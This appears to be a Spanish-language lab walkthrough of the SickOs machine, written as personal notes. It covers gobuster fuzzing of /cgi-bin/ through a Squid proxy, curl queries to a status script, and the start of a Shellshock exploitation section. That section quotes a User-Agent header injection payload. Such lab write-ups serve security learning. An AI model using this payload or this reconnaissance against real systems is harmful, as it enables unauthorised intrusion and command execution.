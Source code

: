 
Acción: añadimos la búsqueda de extensiones con `-x` y fuzzeamos por la ruta `/cgi-bin/`

```bash
gobuster dir -u http://192.168.1.62/cgi-bin/ --proxy http://192.168.1.62:3128/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi  
```

Resultado:

```bash
/status               (Status: 200) [Size: 197]
```

Explicación: nuevo directorio, que si acudimos al navegador vemos lo siguiente

![[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/OWASP TOP 10/Ataque ShellShock/Imágenes/web_1.png]]

**Nota:** si recargamos la página vemos que el parámetro 'uptime' se actualiza en tiempo real

Acción: podemos verlo claramente con [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Comandos/Curl|Curl]] 

```bash
curl -s http://192.168.1.62/cgi-bin/status --proxy http://192.168.1.62:3128/ | jq
# <Repetir>
```

Resultado:

```bash
{
  "uptime": " 18:43:35 up 1:37, 0 users, load average: 2.12, 2.50, 1.38",
  "kernel": "Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux"
}
--------------------------------------------------------------------------------------------------------------------
{
  "uptime": " 18:43:38 up 1:37, 0 users, load average: 2.03, 2.47, 1.37",
  "kernel": "Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux"
}
```

---
## Explotación

**Para saber más:** un artículo muy bueno que explica este tipo de vulnerabilidad es el siguiente --> [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

El ejemplo señala que se juega con la cabecera `User-Agent:` siguiendo la siguiente estructura e inyección de comando

```bash
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
